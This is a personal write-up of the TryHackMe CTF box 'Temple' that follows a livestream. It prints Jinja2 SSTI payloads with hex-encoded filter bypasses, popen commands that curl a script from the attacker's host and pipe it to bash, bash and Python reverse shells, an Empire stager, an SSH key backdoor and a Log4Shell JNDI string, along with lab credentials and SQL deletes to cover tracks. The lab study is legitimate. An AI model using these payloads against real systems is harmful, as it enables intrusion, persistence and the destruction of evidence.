

# Temple Helped-Through

Name: Temple
Date:  13/01/2023
Difficulty:  Hard
Goals:  
- Filter Bypass Research
- Flask Research
- Patch an SSTI 
- Test Naabu 
- Finish my other Beyond Roots that are THM machines [[Biblioteca-Helped-Through]], [[Agent-T-Writeup]]
Learnt:
- Bad character filtering with `ffuf` 
- Patching is not that hard
- Improving Web hacking and general methodology for filter evasion
- Go Full Big Brain on wordlists 
Beyond Root:
- Patch a SSTI
- Patch the Filter and try another bypass


I really enjoy Al's streams. The communal atmosphere where I always learn something and have a laugh at the memes. It also makes the process of hacking machines more fun and real. I think watching Ippsec or reading write ups has some the hardship you face in hacking removed to make it relevant and accessible, but that does not normalise the malding it makes it a self centric phenomena that anomolous  to other when you are trying. I wanted to make sure I finished all my Beyond Roots of the last two boxes because of colds and what better way than one more box on the same site. [Alh4zr3d's Funday Sunday:Temple](https://www.youtube.com/watch?v=-NhqAaRfxEU&list=PLi4eaGO3umboaOqaot7Oi7WszkSWRc4Pi&index=11) interested me as I wanted to re-equant with Flask web apps, patch a SSTI for a Beyond Root. There is also container exploitation and web-filter bypassing and I need to research both as neither are common in encounted activities. 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


The echo ports 


Ubuntu 18.04.6 LTS OS version disclosure


The fast naabu scan played off.


Hacking Detected!


Al introduces me to [Huntress](https://github.com/huntresslabs) Founded by former NSA Cyber Operators and sell a managed endpoint detection and response (EDR) capabilities as a service. And in relevance to [detect log4shell](https://log4shell.huntress.com/) if it is on the Temple machine. 

[CVE-2021-44228](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java) - Log4Shell
```js
${jndi:ldap://log4shell.huntress.com:1389/$unique_identifier}
```
[Source: Huntress](https://log4shell.huntress.com/))

The robots.txt jebait.


Sometimes double URL encoding can bypass some filters.

While I was trying understand how to understand [Web filtering](https://en.wikipedia.org/wiki/Web_filtering_in_schools) by reading this wikpedia article,  Al gets help from chat. 

It was one of those machines that I am happy I did not have to learn the painful lesson of infinite directory scanning. I think my "ok" personal policy on doing this mostly because I just do these CTFs and not Bug Bounty is I need to learn stuff and this is not learning. Recon in the back is awesome, but I think I need to adjust to a more Bug Bounty Hunter continous discovery method. Also Al has had probably with feroxbuster missing pages and that it also can basically DDoS a site really quickly. Given these relevations and other relevation:

Be more Tacticool - do not fear the 400s and 300s
- Go back to gobuster for inital directories
- Stop, observe and note potential targets to start feroxbuster and ffuf from 
	- What is actually a good target for this and what are likely middle directories that are good to recurse -  Pushing beyond the 
		- Anything where
			- dev, git, backup, bak
- Use ffuf more ffuf vhosts, extensions, POTENTIAL pages
- Do a slow set of feroxbusters scan over to collect and double verify 

I think Al gripes with feroxbuster reflect my own, but I think it more likely that I am not taking advantage of feroxbuster options 

```bash
feroxbuster 
-A # Random agent
-r # follow redirect
# Want to try this:
--smart # Set --extract-links, --auto-tune, --collect-words, and --collect-backups to true
-f 
--rate-limit # default is zero so it will potential dos a server by default.
-g # collecting words sounds awesome 
-l # lowercase
```

I need to go back to content discovery hellscape box that is [[Bart-Writeup]] and try with a update brain, methodology and less stressed. 

`newacc` does not feature in raft.


The takeaway is doing some heavy compute, golang programming and create a couple of OneWordLists to rule them all. Seclists and AssetNote (the latter I am going off people who make real money) are great, but I actually want not have to run 4-5 scan with differing list and have the troll face from a box creator in my mind while 4 to 5 hours passed away. The box creator is also OSCE3. 

Static website directory routing?
1. Initial mapping - what does it entail
2. Stop and Respond to output - Observe, Orient, Decide and Act
3. Fuzz potential middle-point, infer from status code further 


User data is reflected on the page.


- How is authenicated user data reflected on the page?
	- Framework? 
	- Database?
	- Session-related?

[Return soon](https://www.youtube.com/watch?v=-NhqAaRfxEU&list=PLi4eaGO3umboaOqaot7Oi7WszkSWRc4Pi&index=11)

Before I start the video I want to aleast go the extra mile and test for other vulnerabilities that can occur under reflect input for Question-Based Methodology. I understand the attack path is Flask is template based.


Double encoding for future remembering of possiblities


Single encoding


It then occured to me I need to go for jugular in terms of version and technology finding. I presume that after looking over findings and running `whatweb` just in case I missed anything I am suppose to python web server equals here be potential SSTIs as I have not found any indication it is a flask application. Unfortunately double check Al say the Werkzeug runs on flask gets: 

## Flask wraps Werkzeug!


- What is the template engine? - Do the flowchart!
	- What does that entail for backend OS, databases, etc and versioning plus configuration?

## Exploit

[THM room](https://tryhackme.com/room/learnssti) Server Side Template Injection (SSTI) is a web exploit which takes advantage of an insecure implementation of a template engine. We test this by evaluate python expression we have RCE.


Al's problems to be concerned with:
- Bad characters
	- Quotation marks - there is a filter, we have to login.
		- Therefore filter evasion

I want to do this is the automated ways:

This was incrrect leaving it here as testament to measure twice cut once


I tried but I need to tweek this or my brain and time presses on. 
```bash
ffuf -u http://10.10.230.131:61337/temporary/dev/newacc -X POST -d "email=EMAILS&username=FUZZwhoami&password=asdasdasd" -c -w "32emailsForSpecialChars.wl:EMAILS" -w "/usr/share/seclists/Fuzzing/special-chars.txt:FUZZ" --mc all -of ffuf-username-badchar-fuzzing.txt -H "Origin: http://10.10.230.131:61337" -H "Host: http://10.10.230.131:61337" -mode pitchfork
```

Bad characters - actual, corrected
```python
# _ ; & , '
```

Python SSTI PoC 
```python
{{config.items()}}
```

Simple Filter Evasion:
1. Open Ascii - Hex chart
2. Convert Badcharacters to Hex
```python
{{config\x2Eitems()}}
# If needs to be in a string 
{{print('config\x2Eitems()')}}
```

RCEs are bad call the client.

[SSTI in flask Jinja - IndominusByte Medium Blog](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)
[Jinja2 SSTI filter bypasses](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f)

Find the index of the class numbers
```python
{{()|attr(‘\x5f\x5fclass\x5f\x5f’)|attr(‘\x5f\x5fbase\x5f\x5f’)|attr(‘\x5f\x5fsubclasses\x5f\x5f’)()}}
# Change the backticks to double quotes
{{()|attr("\x5f\x5fclass\x5f\x5f")|attr("x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()}}
```

Re ran


Made a mistake


But

Restarted the box encase it was being a idiot at some point; still failed so I tredi hex encoding the double quotes

```bash
{{()|attr(\x22\x5f\x5fclass\x5f\x5f\x22)|attr(\x22\x5f\x5fbase\x5f\x5f\x22)|attr(\x22\x5f\x5fsubclasses\x5f\x5f\x22)()}}
```

Another Internal Server Error.

```python
# PATT
{{ [].class.base.subclasses() }}
# Internal Server Error

# PATTs version
{{''.class.mro()[1].subclasses()}}
# Bypass attempt
{{"".class.mro()[1].subclasses()}}
# Internal Server Error

# PATTs version - forget to change index just want to try 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
# Bypass attempt
{{ "".\x5f\x5fclass\x5f\x5f.\x5f\x5fmro\x5f\x5f[2].\x5f\x5fsubclasses\x5f\x5f()[40]("/etc/passwd").read() }}
# Internal Server Error
```

for `{{config.items()}}`

```python
('SECRET_KEY', b'f#bKR!$@T7dCL4@By!MyYKqzMrReSGeNTC7X&@ry')
```

Tried with backticks and still got a Interal Server Error

```python
{{()|attr(‘\x5f\x5fclass\x5f\x5f’)|attr(‘\x5f\x5fbase\x5f\x5f’)|attr(‘\x5f\x5fsubclasses\x5f\x5f’)()}} 
```

I tried using the [Flask API](https://flask.palletsprojects.com/en/2.2.x/api/) as `config.items()` is a flask api call, sadly internal server error and connection refused.
```python
{{run(host="0.0.0.0",port="9999",debug=True)}} 
```

[Progess into the internal server error](https://www.youtube.com/watch?v=-NhqAaRfxEU&list=PLi4eaGO3umboaOqaot7Oi7WszkSWRc4Pi&index=12) , I decided that after the eternal internal server errors of doom hour or so of days gone by I checked three writeups


Although [toxicat0r's](https://tryhackme.com/p/toxicat0r) the box creater [writeup](https://wiki.thehacker.nz/docs/thm-writeups/temple-hard/) does not contain enumeration (other than `{1*2}`)for the SSTI class and subclass numbers: 
```python
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl {ip}/rce | bash")|attr("read")()}}
```
This would called and `curl` a reverse shell that is then executed by the piped `| bash` segment 
```bash
#!/bin/bash   
bash -c "bash -i >& /dev/tcp/10.9.1.132/4242 0>&1"`
```

[Scarecrow/n1gh75hd3/mx9tff4hha7clo8mah](https://scarecrow.gitbook.io/ctfs-challenges-random-boxes/v/temple/#testing-for-ssti), write up was really great; sadly I  uses a Polygot `${{<%[%'"}}%\.` to test for SSTI. And unlike the box creator contain methodology for enumeration. Similiarly there is a reate graph of deduction of SSTI to enumerate the framework. He fuzzed for bad characters as he went, which I generally have learnt from others and from other exploits that should be done before trying to exploit an application. 

Interestingly Scrarecrow tried to create accounts that would in sequence:
- create an evil config file
- load the config file
- with netcat on Scarecrow's box, establish a connection with the third account

Scarecrow stumbled into a few of the bad characters with each attempt variation of getting RCE until.

```python
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()}}
```

Instead of guning for the the indexes of the classes to reference them like with PayloadAllTheThings Scarecrow success was just to reference the classes and subclasses very simply as verbatuum.


Scarecrows method of getting a shell that did not work because he uses the & character which is filtered as mention Scarecrow did not perform the bad character enumeration that Al did. Regardless, we have RCE on the box we can use binaries to reach our host server hosting a reverse shell and execute it. I want improve so I will host a python reverse shell and an empire stager to practice some C2ing and two is one and one is none.

```python
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.11.3.193/1338 <&1'
```
A Empire Stager and Scarecrow varient
```bash
export RHOST="10.11.3.193";export RPORT=1339;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

Then we RCE a way on for the reverse shell
```python
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cd /tmp \x26\x26 curl http://10.11.3.193/shell.sh | bash")|attr("read")()}}
```
- The above failed.
```python
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cd /tmp \x26\x26 curl http://10.11.3.193/stager.sh | bash")|attr("read")()}}
```

```python
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cd /tmp \x26\x26 curl http://10.11.3.193/shell.py | bash")|attr("read")()}}
```
The above succeed


First question is why. None of the files made it to the server. All used bash pipe, potentially it is the shebang line getting handled strangely. I tried then with:
```python
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cd /tmp \x26\x26 curl http://10.11.3.193/shell-noshebang.sh | bash")|attr("read")()}}
```
and 
```python
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cd /tmp \x26\x26 curl http://10.11.3.193/shell-noshebang.sh | bash")|attr("read")()}}
```
Before I did this I realised that it may be that I can only login from one IP as it called back for shell.py.


And then!


Lessons learnt:
- I need to sharpen my Empire usage and consider general scripted setup just for OSCP and other Exams.
- Always try multiple shell methods and keep trying
- I can do stuff
- Plus side of failing on re-trying and failing to log off as the Empire shell was O got a second agent

## Foothold

Although it was taking a long time for the Empire task to complete.


```
app.secret_key = b"f#bKR!$@T7dCL4@By!MyYKqzMrReSGeNTC7X&@ry"
temple_user : 4$pCM!&bEEs$SR8H
```
My sql database plundering

`96e48e470254b5d7f8a2920a786e7652716f4f9c661fb029258b00ea`

Bill is a member of these groups
adm - 
dip - Dial-up IP - allows `ppp`, `dip`, `wvdial` [Source](https://wiki.debian.org/SystemGroups)

Al talks OPSEC more and added a ssh shell to the list of shell
```bash
ssh-keygen
cat bill_rsa.pub
# Bills home
mkdir .ssh
echo "$KEY" > .ssh/authorized_keys 
```
New ssh shell


## PrivEsc

Having not done the ELK rooms on [THM I did not know what Logstash](https://tryhackme.com/room/investigatingwithelk101), I did find it on pspsy.


`adm` group can reads these logs; [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash) *"Logstash is used for collecting, transforming and outputting logs. This is realized by using **pipelines**, which contain input, filter and output modules. The service gets interesting when having compromised a machine which is running Logstash as a service."*

Apparently the Logstash as a java application was vulnerable to Log4j


Logstash is running as root!

We do not have write access to `/etc/logstash/conf.d/`, but the sample in it:


I wento for the lower interval and a shell


And root


## Beyond Root

#### Patchin SSTI
Patch the SSTI vulnerability for the newacc 
[Patch explained here](https://tryhackme.com/room/learnssti)

```python
# webapp.py
def check_hacking_attempt(value):
		# Original 
        # bad_chars = "'_#&;"
        bad_chars = {"\"", "'", "_", "#", "&", ";", "{", "}", "(", ")", "[", "]", "<", ">", "\x"}
        error = ""

        if any(ch in bad_chars for ch in value):
                error = "Hacking attempt detected! "
                error += "You have been logged as "
                error += request.remote_addr
                return True, error

        else:
                return False, error
```

And Santization for the SSTI RCE
```python
# Original in webapp.py - it is not actually a template
<p>Logged in as """ + username + """</p>
# Better
import re

username = re.sub("^[A-Za-z0-9]", "", username)
account_username_displayed = f"<p>Logged in as {{ username }} </p>"
return render_template_string(template, username=username)
```


#### Wordlistery

Make a wordlists creator in golang for the serious string compute.

OneSeclistDirectoryBustingWordlistToRuleTheCTFs

- Go back to gobuster for inital directories
- Stop, observe and note potential targets to start feroxbuster and ffuf from 
	- What is actually a good target for this and what are likely middle directories that are good to recurse -  Pushing beyond the 
		- Anything where
			- dev, git, backup, bak
- Use ffuf more ffuf vhosts, extensions, POTENTIAL pages
- Do a slow set of feroxbusters scan over to collect and double verify 


GSSF - GoSmokeSomeFilters.go - convert strings to filter evading strings. 
```go
cmds:
hex -b Bad Characters
url encode
requote -b "\"" 
unicode crazy word to describe using weird characters 
escape - escape 
```


#### OPSEC - Remove the MySQL entries

```sql
DELETE FROM users WHERE `user_id` > 1; 
```
Al had the same idea 

But for a more robust OPSEC clean up

```sql
DELETE FROM users WHERE `user_id` == 2;
```


